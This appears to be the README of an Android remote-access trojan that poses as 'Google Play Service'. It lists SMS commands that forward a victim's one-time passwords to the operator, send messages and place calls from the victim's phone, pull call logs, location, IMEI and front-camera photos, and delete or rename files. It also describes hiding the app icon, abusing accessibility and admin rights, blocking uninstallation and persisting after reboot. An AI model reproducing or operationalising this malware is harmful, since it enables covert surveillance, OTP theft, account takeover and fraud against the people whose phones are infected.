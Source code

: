 # Google Play Service Command Bot

## Table of Contents
- [About The Payload](#about-the-payload)
- [About Developer](#about-developer)
- [Start Usage](#start-usage)
- [Default Features](#default-features)
- [Root is Required](#root-is-required)
- [My Added Features](#my-added-features)
- [For Files Or Folders](#for-files-or-folders)
- [Automatic Features](#automatic-features)
- [Command Bot App Required Permissions](#command-bot-app-required-permissions)
- [Pro Features](#pro-features)

## About The Payload
- **App Name:** Google Play Service
- **Size:** 9.07 MB
- **Package Name:** com.KaranKumar.SmsCommandBot
- **Min SDK:** 16
- **Target SDK:** 31
- **Compatible with Android:** 5-13
- **Version:** 1.0-Release
- **Note:** May not work on Xiaomi devices in the future.

## About Developer
- **Name:** Karan Kumar
- **Age:** 15+
- **Gender:** Male
- **Languages:** English, Hindi
- **Bio:** I am a FullStack Software Developer, currently learning Cyber Security.
- **Programming Languages:** Go, Shell/Bash, Dart, HTML, JS, CSS, Java, Ruby, C++, C#, XML, Swift, Python, Lua, etc.

## Start Usage
Send the first 'Start_Bot@x@1234567890' command to configure your number with the bot. Replace '1234567890' with your mobile number. This function forwards incoming OTPs from the victim's device to your number.

Note: Android allows sending only a maximum of 160 characters in a message. If it's longer, the message can't be sent.

## Default Features
- 'AM Bluetooth Off' to turn off Bluetooth
- 'AM Bluetooth On' to turn on Bluetooth
- 'AM Flash Off' to turn off Flashlight
- 'AM Flash On' to turn on Flashlight
- 'AM Gps' to get the location URL
- 'AM Ip' to get the IP address
- 'AM Normal' to set the device to normal mode
- 'AM Silent' to set the device to silent mode
- 'AM Sms@x@<number>@x@<message>' to send an SMS from the victim's device to a given number. Replace <number> and <message>.
- 'AM Toast@x@<your toast>' to show a toast message on the victim's device. Replace <your toast>.
- 'AM Wallpaper' to change the wallpaper
- 'AM Wifi Off' to turn off Wi-Fi
- 'AM Wifi On' to turn on Wi-Fi
- 'AM Wifiname' to get connected Wi-Fi's name

## Root is Required
- 'AM Boot' to reboot the device
- 'AM Shut' to shut down the device

## My Added Features
- 'eDEVICE_INFO', 'gDEVICE_INFO', 'zDEVICE_INFO', 'xDEVICE_INFO' to get device information
- 'getDeviceId' to get the device ID
- 'getIMEI' to get the device IMEI number
- 'getMac' to get the MAC address
- 'getPublicIpV4' to get the public IPv4 address
- 'getPublicIpV6' to get the public IPv6 address
- 'getBatteryInfo' to get battery information
- 'getCallLog' to get call logs
- 'getCallLogFile' to get call logs in a text.txt file
- 'StartCallPhone@x@<number>' to call anyone with the victim's device. Replace <number>.
- 'checkConnection' to check if mobile data is on
- 'getFrontCamImage' to get the front camera image (may not work on some devices)
- 'getInstalledApp' to get installed app names or package names
- 'Play_Ring' to play the device's ringtone
- 'Play_Sound@1' and 'Play_Sound@2' to play default sounds from the app's raw folder
- 'playSoundUri@x@<path>' to play a sound with a provided path. Replace <path>.
- 'setWallpaperUri@x@<FullURL-https://example.com/image.png&image.jpeg>' to set the wallpaper with a URL. Mobile data is required.

## For Files Or Folders
- 'delete_File@x@<pathWithFileName>' to delete a file on the victim's device. Replace <pathWithFileName>.
- 'rename_File@x@<pathWithFileName>@x@<PathWithNewFileName>' to rename a file on the victim's device. Replace old and new file paths.
- 'cd_List@x@<FolderPathToViewFiles>' to view files or folders on the victim's device. Replace <FolderPathToViewFiles>.
- 'rename_Folder@x@<FolderFullPath>@x@<NewFolderNameWithPath>' to rename a folder on the victim's device. Replace old folder path and new folder name.

## Automatic Features
Automatic features include auto-sending incoming OTPs and incoming call numbers or names to your number in the background.

## Command Bot App Required Permissions
1. READ_SMS
2. SEND_SMS
3. INTERNET
4. BIND_DEVICE_ADMIN
5. ACCESSIBILITY
6. WRITE_FILE
7. READ_FILE
8. READ_CALL_LOG
9. READ_SMS
10. READ_CONTACT
11. ACCESS_LOCATION
12. ACCESS_STORAGE
13. SET_WALLPAPER
14. BROADCAST_BOOT_COMPLETE_RECEIVED
15. Other permissions as needed.

## Pro Features
- Auto acquiring all permissions after admin or accessibility permission is granted.
- Hiding the app icon after admin permission is granted.
- Prompting the user to enter a password to uninstall the app; incorrect passwords prevent uninstallation (uninstall password: 1234).
- Running in the background after the device boots, auto-starting with an alarm receiver to check if the service is running.

